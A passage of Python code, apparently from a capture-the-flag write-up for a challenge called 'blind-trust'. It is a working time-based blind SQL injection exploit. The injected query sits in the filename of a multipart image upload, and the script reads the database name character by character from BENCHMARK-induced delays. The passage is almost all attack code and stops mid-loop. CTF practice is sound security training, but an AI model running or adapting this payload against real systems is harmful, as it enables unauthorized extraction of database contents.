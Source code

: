 ```py
    "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
    "Origin": "https://blind-trust.ascwg-challs.app",
    "Referer": "https://blind-trust.ascwg-challs.app/challenge.php?page=profile",
    "Te": "trailers"
}

charset = "abcdefghijklmnopqrstuvwxyz0123456789_"
png_data = bytes.fromhex(
    "89504E470D0A1A0A0000000D49484452000000D800000143080600000058F6C0D9"
    "000000017352474200AECE1CE90000000467414D410000B18F0BFC6105"
)

DELAY_THRESHOLD = 3
MAX_LEN = 20

async def check_character(session, pos, char):
    payload = (
        f"Select CaSE WHEN MID(DATABASE(),{pos},1)='{char}' THEN  BENCHMArK(10000000,MD5(1)) "
        f"ELSE 0  END-- .png"
    )

    body = (
        f"--{BOUNDARY}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"{payload}\"\r\n"
        f"Content-Type: image/png\r\n\r\n"
    ).encode() + png_data + b"\r\n" + (
        f"--{BOUNDARY}\r\n"
        f"Content-Disposition: form-data; name=\"upload\"\r\n\r\n"
        f"Upload\r\n"
        f"--{BOUNDARY}--\r\n"
    ).encode()

    start = time.time()
    try:
        async with session.post(
            URL,
            headers=HEADERS,
            cookies=COOKIE,
            data=body,
            proxy=PROXIES["http"],
            ssl=False,
            timeout=15
        ):
            elapsed = time.time() - start
            return char, elapsed > DELAY_THRESHOLD
    except (aiohttp.ClientError, asyncio.TimeoutError):
        return char, False

async def extract_position(session, pos):
    tasks = [check_character(session, pos, c) for c in charset]
    results = await asyncio.gather(*tasks, return_exceptions=True)
    for char, success in results:
        if success:
            return char
    return None

async def main():
    print("[*] Extracting database name...")
    db_name = ""

    async with aiohttp.ClientSession() as session:
        for pos in range(1, MAX_LEN + 1):
            char = await extract_position(session, pos)
```